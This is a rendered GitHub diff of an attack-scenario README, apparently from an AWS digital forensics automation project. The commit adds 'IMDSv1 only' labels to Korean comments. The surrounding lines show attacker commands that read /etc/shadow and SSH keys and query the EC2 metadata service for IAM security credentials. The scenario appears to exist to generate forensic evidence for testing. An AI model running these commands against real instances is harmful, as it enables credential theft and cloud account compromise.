

Before and after one commit to eess22/AWS_Digital_Forensics_Automation, a Markdown page: attack_scenario/Readme.md, the part around the change. Drawn GitHub-style.

````diff
--- a/attack_scenario/Readme.md
+++ b/attack_scenario/Readme.md
@@ -48,12 +48,12 @@ cat /home/ec2-user/.ssh/authorized_keys  # SSH 공개키 확인
 cat /etc/shadow          # 패스워드 해시 열람 시도
 cat /etc/hosts           # 로컬 호스트 정보
 
-# 기본 메타데이터 접근
+# 기본 메타데이터 접근 (IMDSv1 만 해당)
 curl http://169.254.169.254/
 curl http://169.254.169.254/latest/
 curl http://169.254.169.254/latest/meta-data
 
-# IAM 정보 및 보안 자격 증명 확인
+# IAM 정보 및 보안 자격 증명 확인 (IMDSv1 만 해당)
 curl http://169.254.169.254/latest/meta-data/iam/info
 curl http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
 ```
````
